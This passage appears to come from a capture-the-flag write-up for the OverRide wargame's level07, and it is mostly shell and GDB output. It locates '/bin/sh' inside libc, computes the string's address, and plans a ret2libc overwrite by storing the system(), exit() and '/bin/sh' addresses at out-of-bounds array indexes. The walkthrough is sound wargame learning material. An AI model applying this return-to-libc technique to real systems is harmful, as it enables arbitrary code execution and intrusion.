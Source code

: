 ```
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

The start address of the libc seems to be `0xf7e2c000`.

```bash
level07@OverRide:~$ strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
 15d7ec /bin/sh
```

The string is found at offset `0x15d7ec`.  
We add the start address of the libc with the offset in order to get the address of `/bin/sh`: `4158832640 + 1431532 = 4160264172 (0xf7f897ec)`.

We check the address with GDB to confirm if it's the correct one.

```
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

That's correct!

To recap, we store the `system()` address at index 114, the `exit()` address at index 115, and the `/bin/sh` address at index 116.

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```
